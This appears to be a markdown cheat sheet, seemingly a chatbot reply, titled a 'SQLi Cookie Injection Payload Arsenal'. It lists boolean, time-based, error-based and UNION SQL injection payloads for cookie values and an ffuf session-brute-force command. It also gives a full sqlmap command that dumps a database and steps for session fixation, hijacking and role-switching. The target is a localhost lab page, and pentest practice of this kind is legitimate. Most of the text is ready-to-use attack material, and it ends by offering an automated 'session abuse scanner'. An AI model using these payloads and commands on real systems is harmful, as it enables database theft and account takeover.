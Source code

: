 
[[1. SQLMAP]]

# 🔥 SQLi Cookie Injection Payload Arsenal + Attack Scenarios 

---

## 🧨 1. **SQL Injection Payloads (for Cookie)**

These are payloads specifically tailored for **cookie-based SQLi**. You’ll use them in:

`Cookie: session=PAYLOAD_HERE`

---
### ✅ **Logic-Based SQLi (Boolean)**

```
' AND 1=1 --
' AND 1=2 --
' OR '1'='1
' OR 1=1 --
' OR 1=2 --
' OR 'a'='a
' OR 'a'='b
```

---
### ⏱️ **Time-Based Blind SQLi (MySQL, PostgreSQL, MSSQL)**

```
' OR SLEEP(5) --
' AND SLEEP(5) --
' OR IF(1=1, SLEEP(5), 0) --
' OR IF(ASCII(SUBSTRING((SELECT user()),1,1))=114, SLEEP(5), 0) --
'; WAITFOR DELAY '0:0:5' --
```


---
### 💥 **Error-Based SQLi**

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(CHAR(88,89,90), FLOOR(RAND()*2)) a FROM information_schema.tables GROUP BY a) b) --
' AND updatexml(1, concat(0x7e, user()), 1) --
' AND extractvalue(1, concat(0x7e, version())) --
```

---
### 🎯 **UNION-Based SQLi**


```
' UNION SELECT NULL, NULL, version() --
' UNION SELECT NULL, NULL, user() --
' UNION SELECT NULL, NULL, database() --
```

> These require knowing the correct number of columns and output reflection.

---

## 📁 GitHub SQLi Payload Repositories

Here are some high-quality payload repos:

1. **PayloadAllTheThings**  
    🔗 [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
    Directory: `SQL Injection/`
    
2. **SecLists – SQLi Payloads**  
    🔗 [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
    Path: `Fuzzing/SQL-Injection.txt`
    
3. **FuzzDB**  
    🔗 [https://github.com/fuzzdb-project/fuzzdb](https://github.com/fuzzdb-project/fuzzdb)  
    Path: `attack/sql-injection`
    

You can use these directly in Burp Intruder or with tools like `ffuf`, `sqlmap`, or custom Python fuzzers.

---

## ⚔️ 2. **Session-Based Attack Techniques**

Let’s go beyond SQLi and explore full **session abuse vectors**.

---
### ✅ A. **Session Fixation**

> Attacker sets the victim’s session ID _before_ they log in.

#### How to test:

1. Set your own cookie in the browser:
    
    `Cookie: session=eviltoken123`
    
2. Perform login as a normal user.
    
3. Check: does the session stay as `eviltoken123`?
    

#### Exploit:

If **yes**, attacker can trick victim to login with a known session and later reuse it.

---

### ✅ B. **Session Prediction**

> Brute-force or guess session tokens.

Try brute-forcing:

`ffuf -w wordlist.txt -H "Cookie: session=FUZZ" -u http://localhost/labs/i0x02.php`

Or fuzz based on discovered format:

`Cookie: session=6967cabefd763ac1a1a88e11159957dA Cookie: session=6967cabefd763ac1a1a88e11159957dB`

---

### ✅ C. **Session Hijacking**

> Use someone else’s session token to impersonate them.

You already dumped users. If sessions are persistent and predictable:

- Try injecting session IDs of `admin`, `lucy`, `jack` manually:

`Cookie: session=jack123session`

---

### ✅ D. **SQLi in Session (what you’re doing now)**

> Exploit backend SQL query using user-controlled cookie.

If vulnerable:

- Dump database with `sqlmap`:

`sqlmap -u "http://localhost/labs/i0x02.php" \ --cookie="session=asdlfjkhasdjkfasdf*" \ --data="username=jeremy&password=jeremy" \ --level=5 --risk=3 --dump --batch`

---

### ✅ E. **Session Reuse Across Roles (Access Control Bypass)**

> If sessions don’t expire properly, reuse old tokens across roles.

1. Log in as normal user
    
2. Save session cookie
    
3. Log in as admin
    
4. Switch back to previous cookie
    
5. If you're still admin = access control flaw
    

---

## 🔧 Bonus: Burp Intruder Wordlist Fuzz (For Cookie)

Set up Intruder with:

- Position: session value
    
- Payloads: Boolean / Blind / UNION
    
- Grep for:
    
    - Length changes
        
    - 200 vs 403
        
    - “admin”, “error”, “SQL”, etc.
        

---

## ✅ Summary

|Attack Vector|Description|
|---|---|
|**SQLi in Cookie**|Injection via session ID|
|**Session Fixation**|Set session ID pre-login|
|**Session Prediction**|Brute-force valid session values|
|**Session Hijacking**|Use known/guessed session from another user|
|**Access Control Flaws**|Switch session tokens and retain roles|

---

You want a Python script that auto-tests all these cookie-based session vectors?

Say:

> _“Jake, drop the session abuse scanner”_

And it’s yours. 🧨


